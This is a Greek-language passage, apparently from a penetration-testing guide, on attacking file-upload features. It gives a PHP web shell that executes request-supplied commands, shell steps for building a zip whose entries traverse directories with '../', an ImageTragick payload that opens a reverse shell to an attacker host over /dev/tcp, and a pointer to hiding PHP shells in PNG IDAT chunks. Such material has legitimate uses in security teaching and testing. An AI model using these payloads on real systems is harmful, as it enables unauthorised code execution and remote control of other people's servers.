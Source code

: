 Για περισσότερες λεπτομέρειες **ελέγξτε την αρχική ανάρτηση στο**: [https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/](https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/)

1.  **Δημιουργία ενός PHP Shell**: Ο κώδικας PHP γράφεται για να εκτελεί εντολές που περνούν μέσω της μεταβλητής `$_REQUEST`.

```php
<?php
if(isset($_REQUEST['cmd'])){
$cmd = ($_REQUEST['cmd']);
system($cmd);
}?>
```
2.  **File Spraying και Δημιουργία Συμπιεσμένου Αρχείου**: Δημιουργούνται πολλαπλά αρχεία και συναρμολογείται ένα zip αρχείο που περιέχει αυτά τα αρχεία.

```bash
root@s2crew:/tmp# for i in `seq 1 10`;do FILE=$FILE"xxA"; cp simple-backdoor.php $FILE"cmd.php";done
root@s2crew:/tmp# zip cmd.zip xx*.php
```
3.  **Τροποποίηση με Hex Editor ή vi**: Τα ονόματα των αρχείων μέσα στο zip τροποποιούνται χρησιμοποιώντας vi ή έναν hex editor, αλλάζοντας το "xxA" σε "../" για να διασχίσουν τους καταλόγους.

```bash
:set modifiable
:%s/xxA/..\//g
:x!
```

## ImageTragic

Ανεβάστε αυτό το περιεχόμενο με μια επέκταση εικόνας για να εκμεταλλευτείτε την ευπάθεια **(ImageMagick , 7.0.1-1)** (από το [exploit](https://www.exploit-db.com/exploits/39767))
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
pop graphic-context
```
## Ενσωμάτωση PHP Shell σε PNG

Η ενσωμάτωση ενός PHP shell στο IDAT chunk ενός αρχείου PNG μπορεί να παρακάμψει αποτελεσματικά ορισμένες λειτουργίες επεξεργασίας εικόνας. Οι συναρτήσεις `imagecopyresized` και `imagecopyresampled` από το PHP-GD είναι ιδιαίτερα σχετικές σε αυτό το πλαίσιο, καθώς χρησιμοποιούνται συνήθως για την αλλαγή μεγέθους και την επαναδειγματοληψία εικόνων, αντίστοιχα. Η ικανότητα του ενσωματωμένου PHP shell να παραμένει ανεπηρέαστο από αυτές τις λειτουργίες είναι ένα σημαντικό πλεονέκτημα για ορισμένες περιπτώσεις χρήσης.

Μια λεπτομερής εξερεύνηση αυτής της τεχνικής, συμπεριλαμβανομένης της μεθοδολογίας της και των πιθανών εφαρμογών, παρέχεται στο παρακάτω άρθρο: ["Encoding Web Shells in PNG IDAT chunks"](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/). Αυτός ο πόρος προσφέρει μια ολοκληρωμένη κατανόηση της διαδικασίας και των επιπτώσεών της.
